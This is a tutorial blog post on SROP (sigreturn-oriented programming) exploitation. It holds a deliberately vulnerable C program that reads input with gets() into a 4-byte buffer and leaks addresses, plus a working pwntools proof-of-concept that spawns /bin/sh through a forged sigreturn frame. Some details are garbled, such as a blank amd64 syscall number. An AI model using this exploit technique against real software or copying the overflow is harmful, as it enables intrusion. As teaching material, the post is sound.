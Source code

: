 ```yaml
---
layout: post
title: How to SROP
author: adamt
---
```


Sigreturn Orientated programming (SROP) is a cool exploitation technique that allows an attacker to controll the entire state of the CPU with a single syscall and some stack space, possibly leading to code execution.


[tl;dr](https://github.com/adamtanana/SROP-walkthrough)

How to haq
------------------

SROP is very similar to ROP, in which by controlling the stack and the instruction pointer, the attacker is able to influence the control flow of the program through a sequence of gadgets (Small sets of instructions ending in a `ret` or `call` instruction). 
<br />
In cases where there aren't sufficient enough gadgets, or no gadgets that allow the attacker to execute arbritrary code, SROP may be a possible solution.  
<br />
<br />
SROP works by pushing a forged `sigcontext` structure to the stack, and then overwriting the return address with the location of a gadget(s) that will allow the attacker to execute the sigreturn syscall. 

An example sigcontext struct can be seen here from x86 Linux libc
<br />
<https://github.com/lattera/glibc/blob/master/sysdeps/unix/sysv/linux/x86/bits/sigcontext.h#L95>
```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

<br />
An example of the kind of gadget needed for SROP exploits can always be found in the VDSO memory area on x86-Linux systems
<br />
However this can be constructed via multiple gadgets, and effectively just require setting eax to the syscall number of sysreturn, and then calling a syscall/int 0x80 instruction
<br />
```c
  pop     eax
  mov     eax, 0x77
  int     0x80;
  nop
  lea     esi, [esi+0]
```
This will execute a sigreturn syscall. <br />

Example/Actually how to do it
---------------

Here is an example of SROP in a 32 bit linux environment. Luckily `pwntools` comes handy with a SROP library which allows us to construct a sigcontext for any architecture without needing to worry about the exact ordering and sizing of each element. I'll utilise this below 

Example 32bit vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>

static char* dodgy = "/bin/sh";

void func() {
    __asm__(  // all typical things found via a libc leak, or a large binary
          "mov $0x77, %eax;"
          "ret;"
          "int $0x80"
            );
}
void vuln() {
    printf("Hey look its a cheeky gadget\n");
    printf("func: %p\n", func);
    printf("/bin/sh: %p\n", dodgy);

    char buf[4];
    gets(buf);
}

int main() {
    vuln();
}
```
The code has the 3 requirements needed to leverage the SROP technique.

- Gadget(s) that will call the sigreturn syscall (In i386 linux this is syscall number 0x77, in amd64 linux it is )
- Enough Stack space to place an entire `sigcontext` struct
- Somewhere to jump to after the syscall has been evoked 

(in this case we can just jump to the syscall(int 0x80) gadget since we can ensure all registers are set to the required values to execute any syscall)
<br />

We can construct our sigreturn frame, setting the relevant registers required to execute an execve syscall, and then gain shell via a single ROP Gadget. Below is a POC

```python
from pwn import *


def leak(p):                               # Leak the address of our planted  
    p.recvuntil("func: 0x")
    func = int(p.recvline(), 16)

    p.recvuntil("/bin/sh: 0x")
    binsh = int(p.recvline(), 16)

    log.info("Func 0x%x. /bin/sh 0x%x" % (func, binsh))

    return func, binsh

def main():
    context.arch = 'i386'
    p = process("./srop32")

    func, binsh = leak(p)

    moveax = func + 13
    int0x80 = func + 19

    frame = SigreturnFrame(kernel='amd64') # Construct our Sig Return Frame
    frame.eax = constants.SYS_execve       # Syscall to call
    frame.ebx = binsh                      # First argument to execve
    frame.eip = int0x80                    # Return here after the syscall


    payload = 'A' * 16                     # Overflow the buffer
    payload += p32(moveax)                 # Mov 0x77 into eax (SYS_sigreturn)
    payload += p32(int0x80)                # Evoke the syscall
    payload += str(frame)                  # Fill the stack with our sigreturn frame
    p.sendline(payload)


    p.interactive()

if __name__ == "__main__":
    main()
```
